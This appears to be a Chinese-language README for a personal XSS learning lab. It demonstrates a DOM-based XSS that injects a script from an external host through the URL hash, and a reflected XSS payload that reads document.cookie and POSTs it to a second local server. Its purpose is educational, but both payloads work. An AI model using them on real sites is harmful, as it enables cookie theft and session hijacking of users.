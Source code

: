 # xss_learn
xss学习

### dom 型

> dom 型由浏览器执行，与后端无关，需要前端规避。

访问 `domTest.html`，加上 hash 值：
```
// 可以通过本地 http-server 启动一个服务
http://127.0.0.1:8080/domTest.html#document.write("<script/src=//askybig.github.io/ImageStore/xss.js></script>")
```

### 反射型

> 反射型属于后端控制，对输入负责。

分别启动 3000 和 3001端口，在 3000页面输入url：
```
测试数据</h><script>(function () {var str = document.cookie;console.log('str', str);var request=new XMLHttpRequest();request.onreadystatechange=function(){if(request.readyState===4){if(request.status===200){console.log("success");return request}else{console.log("fail");return request}}else{}};request.open("POST","http://localhost:3001/xssattack");request.send(str);})()</script>
```
可以看到3000 端口的 Cookie 被 3001 拿到了。
